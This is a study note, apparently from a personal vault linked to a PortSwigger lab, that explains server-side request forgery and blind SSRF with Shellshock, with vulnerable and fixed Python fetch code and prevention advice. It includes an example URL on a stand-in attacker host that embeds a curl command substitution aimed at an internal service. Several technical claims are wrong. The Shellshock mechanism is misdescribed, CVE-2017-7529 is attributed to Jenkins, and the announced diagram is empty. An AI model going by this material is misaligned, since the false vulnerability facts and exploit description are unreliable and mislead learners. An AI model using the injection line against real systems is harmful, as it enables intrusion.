

## Server-Side Request Forgery (SSRF)

### Introduction to SSRF

Server-Side Request Forgery (SSRF) is a type of web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker’s choosing. This can lead to unauthorized access to internal networks, sensitive data, and even remote code execution. SSRF attacks can occur due to improper input validation and lack of proper restrictions on the domains that the server can communicate with.

### Why SSRF Matters

Understanding SSRF is crucial because it can be used to bypass network segmentation and access resources that are not intended to be publicly accessible. For instance, an attacker might use SSRF to read files from the local filesystem, interact with internal services, or even exploit other vulnerabilities like the Shellshock bug.

### How SSRF Works Under the Hood

In a typical SSRF scenario, the attacker manipulates the input to a function that makes HTTP requests. The server then sends a request to a URL specified by the attacker. If the server does not properly validate the URL, it may end up making requests to internal IP addresses or other restricted resources.

#### Example Scenario

Consider a web application that fetches weather data from an external API:

```python
import requests

def fetch_weather_data(url):
    response = requests.get(url)
    return response.json()

# User-provided URL
user_url = "http://localhost:8080/internal/weather"
weather_data = fetch_weather_data(user_url)
```

If the `fetch_weather_data` function does not validate the `url`, an attacker could provide a URL pointing to an internal service, leading to an SSRF vulnerability.

### Real-World Examples of SSRF Exploits

One notable real-world example of SSRF is the **CVE-2017-7529** vulnerability in Jenkins. This vulnerability allowed attackers to read arbitrary files from the Jenkins server, including sensitive credentials stored in the Jenkins home directory.

Another example is the **CVE-2018-1000145** vulnerability in Docker, which allowed attackers to execute arbitrary commands on the host system through an SSRF attack.

### Blind SSRF with Shellshock Exploitation

Blind SSRF occurs when the attacker cannot see the result of the SSRF request directly. However, they can still infer information based on the behavior of the server. One way to exploit blind SSRF is by leveraging the Shellshock vulnerability (CVE-2014-6271).

#### What is Shellshock?

Shellshock is a family of security bugs in the Unix Bash shell that allow an attacker to execute arbitrary commands on a target system. The vulnerability arises from the way Bash handles environment variables.

#### Exploiting Shellshock via SSRF

An attacker can exploit Shellshock by crafting a malicious HTTP request that sets a specially crafted environment variable. If the server-side application makes an HTTP request to a URL controlled by the attacker, the attacker can inject arbitrary commands.

##### Example Exploit

Suppose a web application makes an HTTP GET request to a URL provided by the user:

```python
import requests

def fetch_data(url):
    response = requests.get(url)
    return response.text

# User-provided URL
user_url = "http://attacker.com/command?$(curl http://localhost:8080/internal/service)"
data = fetch_data(user_url)
```

The attacker crafts the URL to set an environment variable that triggers the Shellshock vulnerability:

```bash
$(curl http://localhost:8080/internal/service)
```

When the server makes the HTTP request, the `curl` command will be executed, potentially leading to unauthorized access to internal services.

### Detailed Attack Chain Diagram

Let's visualize the attack chain using a mermaid diagram:



### How to Prevent / Defend Against SSRF

#### Detection

To detect SSRF vulnerabilities, you can use tools like Burp Suite Professional, which includes features for identifying and testing for SSRF. Additionally, static and dynamic analysis tools can help identify potential SSRF vulnerabilities in your codebase.

#### Prevention

1. **Input Validation**: Ensure that any URL input is validated to only allow trusted domains. Use a whitelist approach to restrict the domains that the server can communicate with.

2. **Network Segmentation**: Implement strict network segmentation to limit the ability of one service to communicate with others. Use firewalls and network policies to enforce these restrictions.

3. **Secure Coding Practices**: Avoid using user-provided input directly in HTTP requests. Instead, use predefined constants or safe libraries that handle URL validation.

4. **Configuration Hardening**: Harden your server configurations to prevent unauthorized access. For example, disable unnecessary services and ensure that environment variables are not exposed to untrusted sources.

#### Secure Code Fix Example

Here is an example of how to securely handle URL inputs:

```python
import requests
from urllib.parse import urlparse

def fetch_data(url):
    parsed_url = urlparse(url)
    if parsed_url.scheme not in ['http', 'https']:
        raise ValueError("Invalid URL scheme")
    if parsed_url.hostname != 'trusteddomain.com':
        raise ValueError("Invalid hostname")

    response = requests.get(url)
    return response.text

# User-provided URL
user_url = "http://trusteddomain.com/data"
try:
    data = fetch_data(user_url)
except ValueError as e:
    print(f"Error: {e}")
```

### Full HTTP Request and Response Example

Here is a complete example of an HTTP request and response:

#### Vulnerable Code

```python
import requests

def fetch_data(url):
    response = requests.get(url)
    return response.text

# User-provided URL
user_url = "http://localhost:8080/internal/service"
data = fetch_data(user_url)
```

#### Secure Code

```python
import requests
from urllib.parse import urlparse

def fetch_data(url):
    parsed_url = urlparse(url)
    if parsed_url.scheme not in ['http', 'https']:
        raise ValueError("Invalid URL scheme")
    if parsed_url.hostname != 'trusteddomain.com':
        raise ValueError("Invalid hostname")

    response = requests.get(url)
    return response.text

# User-provided URL
user_url = "http://trusteddomain.com/data"
try:
    data = fetch_data(user_url)
except ValueError as e:
    print(f"Error:: {e}")
```

### HTTP Headers Explanation

When dealing with HTTP requests, it is important to understand the headers involved:

```http
GET /internal/service HTTP/1.1
Host: localhost:8080
User-Agent: curl/7.64.1
Accept: */*
```

- **Host**: Specifies the host and port number of the resource being requested.
- **User-Agent**: Identifies the client software making the request.
- **Accept**: Indicates the types of content that the client can accept.

### Common Mistakes and Pitfalls

1. **Improper Input Validation**: Failing to validate user-provided URLs can lead to SSRF vulnerabilities.
2. **Overly Permissive Network Policies**: Allowing unrestricted communication between services can expose internal resources.
3. **Ignoring Environment Variables**: Not securing environment variables can lead to vulnerabilities like Shellshock.

### Hands-On Labs

For hands-on practice with SSRF vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers detailed labs on SSRF and other web security topics.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various web security exploits.
- **DVWA (Damn Vulnerable Web Application)**: Provides a variety of web application vulnerabilities, including SSRF.

By thoroughly understanding SSRF and implementing robust security measures, you can significantly reduce the risk of such vulnerabilities impacting your applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/09-Server-Side Request Forgery (SSRF)/08-Lab 7 Blind SSRF with Shellshock exploitation/10-Real-World Examples|Real-World Examples]] | [[Web Security (PortSwigger)/09-Server-Side Request Forgery (SSRF)/08-Lab 7 Blind SSRF with Shellshock exploitation/00-Overview|Overview]] | [[12-Understanding Shellshock Exploitation|Understanding Shellshock Exploitation]]
